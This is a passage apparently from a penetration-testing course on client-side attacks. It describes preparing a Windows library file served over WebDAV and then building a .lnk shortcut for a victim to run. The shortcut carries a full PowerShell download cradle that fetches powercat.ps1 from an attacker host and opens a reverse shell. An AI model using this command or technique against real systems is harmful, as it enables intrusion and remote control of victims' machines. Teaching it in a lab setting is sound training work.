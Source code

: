 ![AWLF](AW6.png)

The library file still works when we double-click it, but due to the encoded information in the serialized tag, it may not be working on other machines or after a restart. This could result in a situation where our client-side attack fails, because Windows Explorer shows an empty WebDAV share.

To avoid running into any issues when performing this attack, we can reset the file to its original state by pasting the contents of listing 17 into Visual Studio Code. Unfortunately, we need to do this every time we execute the Windows library file. However, this is not a big deal since in most assessments we only need the victim to double-click the file once. Once the file has returned to its original state, we are ready to send the file to our victim.

Now that we have a working Windows library file, we'll need to create the shortcut file. The goal is to start a reverse shell by putting the .lnk shortcut file on the WebDAV share for the victim to execute.

Let's create the shortcut on the desktop for the offsec user. For this, we'll right-click on the desktop and click on New then on Shortcut. In the Create Shortcut window, we can enter a path to a program along with arguments, which will be pointed to by the shortcut. We'll point the shortcut to PowerShell and use another download cradle to load PowerCat from our Kali machine and start a reverse shell.

We'll use the command we leveraged previously:

```bash
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');powercat -c 192.168.119.3 -p 4444 -e powershell"
```
We'll enter this command into the input field and click Next.
